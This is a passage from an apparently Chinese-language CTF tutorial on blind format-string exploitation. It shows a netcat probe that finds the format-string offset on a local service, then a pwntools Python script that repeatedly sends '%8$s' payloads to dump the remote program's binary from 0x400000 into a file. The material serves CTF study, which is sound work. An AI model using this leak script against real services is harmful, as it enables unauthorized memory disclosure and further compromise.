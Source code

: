 #### 确定偏移

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为 6。

#### 泄露binary

由于程序是64位，所以我们从 0x400000 处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的。。所以我们可以利用如下的泄露代码。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
	addr = 0x400000
	f = open('binary', 'w')
	while addr < 0x401000:
		data = leak(addr)
		if data is None:
			f.write('\xff')
			addr += 1
		elif len(data) == 0:
			f.write('\x00')
			addr += 1
		else:
			f.write(data)
			addr += len(data)
	f.close()
getbinary()
```
